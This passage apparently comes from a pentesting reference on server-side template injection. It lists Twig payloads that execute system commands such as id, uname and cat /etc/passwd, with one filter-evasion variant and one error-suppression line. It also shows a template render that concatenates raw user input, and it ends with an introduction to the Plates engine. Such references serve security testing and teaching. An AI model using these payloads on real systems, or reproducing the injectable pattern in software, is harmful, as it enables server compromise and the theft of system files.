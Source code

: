 ```
{{_self.env.registerUndefinedFilterCallback("system")}}{{_self.env.getFilter("id;uname -a;hostname")}}
{{['id']|filter('system')}}
{{['cat\x20/etc/passwd']|filter('system')}}
{{['cat$IFS/etc/passwd']|filter('system')}}
{{['id',""]|sort('system')}}

#Hide warnings and errors for automatic exploitation
{{["error_reporting", "0"]|sort("ini_set")}}
```

**Twig - Template format**



```
$output = $twig > render (
 'Dear' . $_GET['custom_greeting'],
 array("first_name" => $user.first_name)
);

$output = $twig > render (
 "Dear {first_name}",
 array("first_name" => $user.first_name)
);
```

**More information**

- In Twig and Twig (Sandboxed) section of [https://portswigger.net/research/server-side-template-injection](https://portswigger.net/research/server-side-template-injection)
 
- [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#twig](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#twig)
 

### 

[](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#plates-php)

Plates (PHP)

Plates is a templating engine native to PHP, drawing inspiration from Twig. However, unlike Twig, which introduces a new syntax, Plates leverages native PHP code in templates, making it intuitive for PHP developers.

Controller:



```
// Create new Plates instance
$templates = new League\Plates\Engine('/path/to/templates');

// Render a template
echo $templates->render('profile', ['name' => 'Jonathan']);
```
